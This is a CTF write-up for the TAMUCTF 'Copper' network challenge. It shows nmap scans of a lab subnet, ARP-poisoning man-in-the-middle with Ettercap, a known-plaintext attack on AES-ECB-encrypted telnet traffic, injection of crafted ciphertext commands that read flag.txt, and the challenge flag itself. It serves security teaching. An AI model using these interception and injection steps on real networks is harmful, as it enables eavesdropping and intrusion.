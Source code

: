# TAMUCTF Copper (Network/Pentest) Write-Up

### Given
```TeXt
Bob learned that telnet was actually not secure. Because Bob is a good administrator he wanted to make his own, more secure, version of telnet. He heard AES was secure so he decided to use that.

Here is the script he runs every day over telnet:

ls -la
date > monitor.txt
echo "=========================================" >> monitor.txt
echo "ps -aux" >> monitor.txt
ps -aux >> monitor.txt
echo "=========================================" >> monitor.txt
echo "df -h" >> monitor.txt
df -h >> monitor.txt
cp ./monitor.txt /logs
exit

Difficulty: medium
```

### Let us begin!
1. First we need to see what’s going on in this network.

	```TeXt
	nmap 172.30.0.0/28

	Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-03 20:43 CST
	Nmap scan report for 172.30.0.2
	Host is up (0.087s latency).
	Not shown: 999 closed ports
	PORT     STATE SERVICE
	8080/tcp open  http-proxy
	MAC Address: 02:42:49:5F:5E:5D (Unknown)

	Nmap scan report for 172.30.0.3
	Host is up (0.086s latency).
	All 1000 scanned ports on 172.30.0.3 are closed
	MAC Address: 02:42:1C:3A:87:FA (Unknown)

	Nmap scan report for 172.30.0.14
	Host is up (0.0000050s latency).
	All 1000 scanned ports on 172.30.0.14 are closed

	Nmap done: 16 IP addresses (3 hosts up) scanned in 10.87 seconds
	```

	As we can see there is an open port `8080` on `172.30.0.2	` but the challenge tells us Bob connects over telnet…

	We need to see if there are non-standard ports open that could take telnet… and this can take some time to run

	```TeXt
	nmap -p 1-65535 172.30.0.0/28

	Nmap scan report for 172.30.0.2
	Host is up (0.087s latency).
	Not shown: 65533 closed ports
	PORT     STATE SERVICE
	6023/tcp open  x11
	8080/tcp open  http-proxy
	MAC Address: 02:42:49:5F:5E:5D (Unknown)

	Nmap scan report for 172.30.0.3
	Host is up (0.087s latency).
	All 65535 scanned ports on 172.30.0.3 are closed
	MAC Address: 02:42:1C:3A:87:FA (Unknown)

	Nmap scan report for 172.30.0.14
	Host is up (0.0000050s latency).
	All 65535 scanned ports on 172.30.0.14 are closed

	Nmap done: 16 IP addresses (3 hosts up) scanned in 570.74 seconds

	```

	Hey look another open port! Well unfortunately we don’t really know what it is yet. However we are going to ignore that nmap has **guessed** it to be x11. It is ##23 so I’m going to assume it’s telnet. 

	Thankfully this connects so we know 6023 is telnet and not x11 traffic. 

	```TeXt
	telnet 172.30.0.2 6023
	```


2. Taking what we know from the last challenge since these seems to build on themselves, we can see that there are two hosts on this network and we can go ahead and assume we need to become the router again and steal the traffic.

	**Arp Spoofing**

	Lets crack open Ettercap

	```
	ettercap -G 				Opens etter in graphical mode
	```

	First we gotta tell ettercap what it’s doing open.

	```
	Sniff > Unified Sniffing > tap0 > OK

	This is telling ettercap to sniff the unified network tap0 which is going to set out interface to the VPN we connected to for the challenges
	```

	Next we need to tell ettercap where the hosts are. Or actually let it find them itself. 

	```
	Hosts > Scan for hosts
	```

	Done. It now knows who’s online

	Now we need to actually specify the mode of the ettercap man in the middle attack. 

	```
	Mitm > Arp Poisioning > Sniff remote connections (leave Only poision one way OFF) > OK

	This is setting the Mitm mode to ARP spoofing.  
	```


3.  Once we are in wireshark and watching the traffic over tap0 we can see that a lot of traffic is rolling in. 

	Lets click on any of the TCP streams and follow it.

	This is a snippet of what you should see…

	```
	YiqMxpZQz+5dPf+qELowBw==YiqMxpZQz+5dPf+qELowBw==US5MJOeTx6L69iQT3Y8B9g==US5MJOeTx6L69iQT3Y8B9g==83jbJmmZc/RUXML8GcGuVg==83jbJmmZc/RUXML8GcGuVg==h8zZvECdaFr730Mgo5EgYQ==h8zZvECdaFr730Mgo5EgYQ==YiqMxpZQz+5dPf+qELowBw==YiqMxpZQz+5dPf+qELowBw==RdGNIA97r2yYuQsdXjbQGA==RdGNIA97r2yYuQsdXjbQGA==S+79/0xJH6oVAqvGSE+Vlw==S+79/0xJH6oVAqvGSE+Vlw==fgGU2dbDvV/tVy3pk1PL3RtH3cGz/iZONajZ8BEPWHG7po66JCI5Op/jKLRdZlb31eFpjL6PbjBkXoovQ+RAzrOdJj46ilT61DOaQS5qHqGNzfRd6oP5OVqsSQfL7KRc1dK33psltMaeljuYxprLLDlbQVJOy5/2Rj0hUuX2Xu1eUrhcsOFVR8DM9BzYiVUtlA417iX2kt/NfiPW7VAE/A8jFusY2vPXAkog4PlELnMVpLWulfLoJiiKvLdbEhiZM/+rdhmEpXYXbNHmQFodAguMcHTyZnKVFhJ7v8bOb5vKMB+4s7cNaDQrFwTEtfjm0ucK4gjFcmCDfScYw6c5UA==vCffRJyLzPpoDVYNvxEtoA==vCffRJyLzPpoDVYNvxEtoA==RdGNIA97r2yYuQsdXjbQGA==RdGNIA97r2yYuQsdXjbQGA==MufXoG4oKY+tLj7TNMzMtQ==MufXoG4oKY+tLj7TNMzMtQ==9+fXRGjlf3TvpwR6XiqcSw==9+fXRGjlf3TvpwR6XiqcSw==83jbJmmZc/RUXML8GcGuVg==83jbJmmZc/RUXML8GcGuVg==bIyEa1uO0qUPR+sBqjAJ8g==bIyEa1uO0qUPR+sBqjAJ8g==83jbJmmZc/RUXML8GcGuVg==83jbJmmZc/RUXML8GcGuVg==0bGyNN1VKjWCxituvKDVvg==0bGyNN1VKjWCxituvKDVvg==/Ks7iNV5tZaZT32Epav0CA==/Ks7iNV5tZaZT32Epav0CA==
	```

	So for this to make any sense we need to get some information regarding telnet. Telnet only prints something in the window if it’s echoed back. That might take some time to sink in so I’ve got a small example below

	```
	If you're putting in the command `date`, in telnet we will see it as 

		ddaattee because you type d and it types it back. You type a and it types it back etc.
	```

	With this in mind if we analyze the traffic using wireshark’s lovely coloring we can see that this is just a regular telnet session with some encrypted characters onto it. Hey wait a minute! Didn’t it tell us that Bob was running commands in the given text?

4. So at this point you still might be lost and that’s fine cause I certainly was. So lets make an assumption here. Lets say that the command `ls` is actually `57` meaning `l=5` and `s=7`. The next few numbers can be easily deciphered but we only care about 5 and 7. Lets say we get a string of numbers such as `57095`. For convenience lets tell you that `space=0` and `-=9` Which would translate 57095 into `ls -l`. Well guess what! That’s literally the basis of this entire challenge.

	We’ve seen that he runs `ls -la` and instead of `l=5` it actually equals `YiqMxpZQz+5dPf+qELowBw==` which is nice but also not.  This means we can build a character map to see what characters equal the encrypted strings. This is known as a `known plaintext attack` which can be used even in today’s attacks. 

	So also notice that on telnet no login pops up? Weird huh well for the saving of time I’m just going to say that this means we are going to copy and paste our commands we make by hand straight in there and let them run with no credentials. 

	At this point we need to make a character map…

	```TeXt
	= : Tkb8E728rfsc+V1i5HtOzQ==
	l : YiqMxpZQz+5dPf+qELowBw==
	s : US5MJOeTx6L69iQT3Y8B9g==
	> : bIyEa1uO0qUPR+sBqjAJ8g==
	o : /Ks7iNV5tZaZT32Epav0CA==
	g : lwA3zobBmueRmJyafjFH9A==
	/ : pxsE18FW3UofpVPzG1RchA==
	Space : 83jbJmmZc/RUXML8GcGuVg==
	\n : S+79/0xJH6oVAqvGSE+Vlw==


	C : XpjdNQ+r0XfWy25TW5lyAg==
	A : RdGNIA97r2yYuQsdXjbQGA==
	T : MufXoG4oKY+tLj7TNMzMtQ==

	F : qgZnSf9/KcpMFM90/ZaklQ==
	L : YiqMxpZQz+5dPf+qELowBw==
	A : RdGNIA97r2yYuQsdXjbQGA==
	G : lwA3zobBmueRmJyafjFH9A==
	.txt: gCe+M22NmuwF6cPVKGGoZQ==MufXoG4oKY+tLj7TNMzMtQ==wJNrzltAAb7rg/64niXZNg==MufXoG4oKY+tLj7TNMzMtQ==
	```

5. Lets look at the web server now. We need to understand where we are so we can drop the output of our commands in somewhere we can read them. So we see from given that Bob moves the monitor file from wherever he is into /logs/ and because we can see the monitor file we will now be assuming that we are a web server running in /logs/. With information as such when we run our commands we want to dump them in /logs/ so we may be able to view them.

6. So the first command we shall create is ls\>/logs/l so we can see what’s in the directory and then pipe that output to the file in logs that we can see from the web server. 

	```TeXt
	ls>/logs/l

	YiqMxpZQz+5dPf+qELowBw==US5MJOeTx6L69iQT3Y8B9g==bIyEa1uO0qUPR+sBqjAJ8g==pxsE18FW3UofpVPzG1RchA==YiqMxpZQz+5dPf+qELowBw==/Ks7iNV5tZaZT32Epav0CA==lwA3zobBmueRmJyafjFH9A==US5MJOeTx6L69iQT3Y8B9g==pxsE18FW3UofpVPzG1RchA==YiqMxpZQz+5dPf+qELowBw==S+79/0xJH6oVAqvGSE+Vlw==
	```

	Running that returns

	```TeXt
	flag.txt
	monitor.txt
	server.py
	```


	and so now we know the next command needs to be cat flag.txt\>/logs/l

	Note is that the letters after /logs/ is only the name of the file and I chose those to be l and f because those are characters I already grabbed as appart of the charmap so I didn't need to do extra work

	```TeXt
	Cat flag.txt>/logs/f
		
		XpjdNQ+r0XfWy25TW5lyAg==RdGNIA97r2yYuQsdXjbQGA==MufXoG4oKY+tLj7TNMzMtQ==83jbJmmZc/RUXML8GcGuVg==qgZnSf9/KcpMFM90/ZaklQ==YiqMxpZQz+5dPf+qELowBw==RdGNIA97r2yYuQsdXjbQGA==lwA3zobBmueRmJyafjFH9A==gCe+M22NmuwF6cPVKGGoZQ==MufXoG4oKY+tLj7TNMzMtQ==wJNrzltAAb7rg/64niXZNg==MufXoG4oKY+tLj7TNMzMtQ==bIyEa1uO0qUPR+sBqjAJ8g==pxsE18FW3UofpVPzG1RchA==YiqMxpZQz+5dPf+qELowBw==/Ks7iNV5tZaZT32Epav0CA==lwA3zobBmueRmJyafjFH9A==US5MJOeTx6L69iQT3Y8B9g==pxsE18FW3UofpVPzG1RchA==YiqMxpZQz+5dPf+qELowBw==S+79/0xJH6oVAqvGSE+Vlw==
	```


	With that dumps 

	```TeXt
	gigem{43s_3cb_b4d_a5c452ed22aa5f1a}
	```
